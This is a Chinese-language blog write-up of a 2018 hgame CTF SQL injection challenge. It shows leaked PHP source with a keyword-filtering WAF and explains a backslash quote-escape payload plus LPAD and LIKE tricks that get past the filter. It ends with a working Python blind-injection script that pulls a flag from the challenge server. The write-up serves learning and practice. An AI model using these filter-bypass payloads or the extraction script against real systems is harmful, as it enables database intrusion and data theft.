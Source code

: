 ```yaml
---
title: 记录一次hgame ctf的注入
url: 242.html
id: 242
categories:
  - CTF
  - sql注入
  - 学习笔记
date: 2018-02-28 21:13:54
tags:
---
```


### 前言

组里莫名开始在线上刷hgame，一个寒假没碰过这些，而且不得不说杭电的题目有点难，可能也是自己太菜了，总之这回的week4差不多无从下手。 然后今天要记录的是这道题 
![](http://blog.kingkk.com/wp-content/uploads/2018/02/5be75d06bcd7c644ac6d2864ab2a1d64.png) 
![](http://blog.kingkk.com/wp-content/uploads/2018/02/645f4302a1a8a6cd2e8246ed6f767e39.png) 
根据那个描述，应该能猜到有文件泄露，找了下备份文件index.php~
```php
<?php error_reporting(0); include("sql.php"); $waf="/(sleep|benchmark|union|group by|=|>|<|hex| |lower|strcmp|updatexml|xmlelement|extractvalue|concat|bin|sleep|mid\\(|substr|left|ascii|\\/\\*|\\*\\/)/i";
    if(isset($_GET\['user'\])){
        if(preg\_match\_all($waf,$_GET\['user'\])!=0){
            $user="admin";
        }else{
            $user = str\_replace("'","\\'",$\_GET\['user'\]);
        }
        //echo $user."
";
        
        $sqli = new mysqli($host,$username,$passwd,$database);
        $sqli->set_charset("gbk");
        $query="select * from users where username='".$user."'";
        $result = $sqli->query($query);
        //echo $sqli->error;
        $num=0;
        @$num = $result->num_rows;
        if($num>0){
            while($row = $result->fetch_row()){
                echo $row\[0\]."    ".$row\[1\]."   ".$row\[2\]."
";
            }
        }
    }
```
过滤了好多，对于我这种只会基础注入的，差不多就gg了，最后组里大佬给的一个payload

**?user=lufei\\'or(Lpad(user(),1,1)like(0x5f))%23** 

 

### 正文

先解释一下这段payload  

#### \\'

注意到这里对单引号的处理有点特殊，它的处理并不在$waf中，而是单独对 ' 进行替换成  \\'

$user = str\_replace("'","\\'",$\_GET\['user'\]);

然后这里输入 lufei\\' 的时候，就会变成 lufei\\\'   ，正好将转移的那个反斜杠通过之前的反斜杠吃掉了，从而造成了单引号逃逸

##### LPAD(str,len,padstr)

> 返回字符串str，左填充用字符串padstr填补到len字符长度。 如果str为大于len长，返回值被缩短至len个字符
```sql
mysql> select lpad(user(),20,'a');
+----------------------+
| lpad(user(),20,'a') |
+----------------------+
| aaaaaaroot@localhost |
+----------------------+
1 row in set (0.00 sec)
```
同理还有右填充 rpad,  但是当len参数小于str的长度时，返回的字符串将被缩短
```sql
mysql> select lpad(user(),1,'a');
+--------------------+
| lpad(user(),1,'a') |
+--------------------+
| r                  |
+--------------------+
1 row in set (0.00 sec)
```
这样，就找到了一个返回字符串的函数，绕过了waf  

#### **like**

会对字符串进行匹配（不区分大小写） 两个通配符

*   %    匹配任意多字符串
*   _      匹配单个任意字符

这样，就找了绕过等号（=）限制的一个符号  

### 脚本

接下来就写了个脚本进行注入 写脚本写了好久，不过手工注入貌似要更久的时间，而且看最后出来的flag长度，就是想让你自己写脚本跑 写脚本时有几个注意点

*   编写py时，url编码不能放到get的参数中，因为不会进行url encode，比如%23必须要写成#，否则传入到sql语句的还是%23不会变成#。还有%0a也要写成\\n或者chr(10)
*   like匹配时会匹配上%、_两个符号，以及不会区分大小写，要自己进行处理
*   由于单引号  '  的不可用，要转成十六进制进行like比较

然后废话不多说，show you the code
```python
__author__ = 'kingkk'
#encoding=utf8
import requests, re

sql = "select thisisflag from flllllag limit 0,1"


sql = re.subn('\s',chr(10),sql)[0]
hex_range = [i for i in range(130) if i!=37 and i!=95]
strlist = []

for str_len in range(1,50):
	for i in hex_range:
		if str_len == 1:
			params={"user":r"a\'or(Lpad(({}),1,1)like({}))#".format(sql,hex(i))}
			r = requests.get("http://118.25.18.223:10088/index.php",params=params)
			if r.text[:5] == 'admin':
				strlist.append(i)
				break
		else:
			params={"user":r"a\'or(Lpad(({}),{},1)like({}))#".format(sql,str_len,hex_str+hex(i)[2:])}
			r = requests.get("http://118.25.18.223:10088/index.php",params=params)
			if r.text[:5] == 'admin':
				strlist.append(i)
				break	

	for x,i in enumerate(strlist):
		if x==0:
			hex_str = str(hex(i))
		else:
			hex_str += str(hex(i)[2:])

	for i in strlist:
		print(chr(i),end="")
	print()

	print(strlist)
```
  最后的flag（这个手工注怕是要死人，可能就是故意搞得那么长的） 
![](http://blog.kingkk.com/wp-content/uploads/2018/02/1a34865a573b0ac7c466bf9cc6ee10cd.png) 
最后吐槽一句，原来虽然sql语句关键词不区分大小写，但数据库名那些是区分大小写的，怪不得之前试了好久都没出来，难受  

### 总结

本以为自己还算会一点sql注入，后来发现，其实还是啥都不会 慢慢补把，下学期的ctf要认真对待下了，而且sql过waf这个确实也要学学